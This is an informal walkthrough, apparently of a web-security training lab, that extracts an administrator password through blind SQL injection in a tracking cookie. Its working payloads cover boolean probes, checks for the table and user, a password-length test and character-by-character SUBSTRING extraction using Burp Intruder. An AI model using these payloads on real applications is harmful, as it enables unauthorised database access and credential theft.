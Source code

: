 # SQL injection labs

## Lab: Blind SQL injection with conditional responses



The application uses a tracking cookie for analytics

The database contains a different table called <mark style="color:red;">**`users`**</mark>, with columns called <mark style="color:red;">**`username`**</mark> and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the <mark style="color:red;">**`administrator`**</mark> user.



**`Cookie: TrackingId=St10uonYH4szuC66`**

```sql
Cookie: TrackingId=St10uonYH4szuC66' AND '1'='1 #true
Cookie: TrackingId=St10uonYH4szuC66' AND '1'='2  #false
```



ok i will use limit

```sql
' AND (SELECT 'X' from users limit 1)='x'--
```

<figure><img src="../../../.gitbook/assets/image (132).png" alt=""><figcaption><p>Welcome back!</p></figcaption></figure>

ok i will try use table users and column username

```sql
AND+(SELECT+username+FROM+users+WHERE+username='administrator')='administrator'--
```

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

ok in this case i'll  tracking passsword using SUBSTRING() function to extract a single character from the password



```sql
' AND (SELECT username FROM users WHERE username='administrator' and LENGTH(password)>1)='administrator'--
```

<figure><img src="../../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

i will try numbers 1 to 19 all valid  password >19

go to intruder  > cluster bomb

```sql
'+AND+(SELECT+substring(password,1,1)+FROM+users+WHERE+username%3d'administrator')%3d'8'--
```

<figure><img src="../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

```
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
8oiqhj3w6k9bfypfq7j1
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

offfffffffffffffffffffffff! :smile: :tada:
